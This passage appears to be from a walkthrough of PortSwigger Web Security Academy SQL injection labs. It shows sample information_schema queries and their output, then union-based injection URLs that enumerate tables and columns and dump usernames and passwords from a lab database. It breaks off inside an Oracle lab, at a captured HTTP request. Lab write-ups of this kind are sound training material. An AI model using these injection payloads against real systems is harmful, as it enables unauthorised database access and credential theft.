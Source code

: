 - Usefull info:
`SELECT * FROM information_schema.tables`

```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

- Getting tables:

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Food+%26+Drink+%27+union+select+table_name,%27ts%27+from+information_schema.tables+--+-
```

- Getting columns:

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Food+%26+Drink+%27+union+select+column_name,%27ts%27+from+information_schema.columns+where+table_name=%27users_owibbo%27+--+-
```

- Getting users and passwords:

```html
https://<YOUR_LAB>.web-security-academy.net/filter?category=Food+%26+Drink+%27+union+select+password_mikenl,username_ruipll+from+users_owibbo+--+-
```

#### Lab: SQL injection attack, listing the database contents on Oracle

- Let's got to a home page and send request to repeater:

```html
GET / HTTP/2
Host: <YOUR_LAB>.web-security-academy.net
Cookie: TrackingId=BTUKMeEhhvDFmzhu; session=xKSOPPAs56VTKT6bpSCAb1rabtoAreMS
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://<YOUR_LAB>.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```
